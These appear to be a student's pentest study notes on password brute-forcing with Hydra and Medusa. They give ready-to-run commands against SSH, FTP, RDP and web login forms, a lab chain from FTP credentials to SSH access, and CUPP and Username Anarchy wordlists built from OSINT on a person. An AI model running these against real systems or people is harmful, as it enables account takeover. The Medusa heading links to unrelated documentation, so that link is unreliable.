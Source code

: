 # Hydra
- Crafting the correct params string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. 

- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (`/`).
  - The username field is named `username`.
  - The password field is named `password`.
 
Therefore, the `params` string would be:
- `/:username=^USER^&password=^PASS^:F=Invalid credentials`
  - `"/"`: The path where the form is submitted.
  -  `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
  -  `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
 
Resulting in - `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

# [Medusa]([url](https://docs.medusajs.com/learn/fundamentals/modules))
- `medusa [target_options] [credential_options] -M module [module_options]`
- Useful for FTP, HTTP, IMAP, MYSQL, POP3, RDP, SSHV2, SUBVERSION(SVN), TELNET, VNX, Web Form.
- SSH Server: `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh`
- Multiple HTTP Auth: `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET `
- test for empty or default passwords (where user = password: `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

- Reminder SSH Login: `ssh sshuser@<IP> -p PORT`

- Find SSH access --> run `nmap localhost` --> run new medusa command on FTP port found: `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5` --> Found ftpuser password then run `ftp <IP>` --> enter user --> enter password -->> find file --> `get filename1` --> now in SSH shell

- Make a custom wordlist with `Username Anarchy`
  - `/username-anarchy Jane Smith > jane_smith_usernames.txt`
  - txt file created will have a bunch of username variations based off `Jane Smith`
 
- Make custom password lists with `CUPP`:
  - CUPP will take your inputs and create a comprehensive list of potential passwords
  - OSINT will be a goldmine of information for CUPP
  - Spawn CUPP with `cupp -i` and follow the prompts
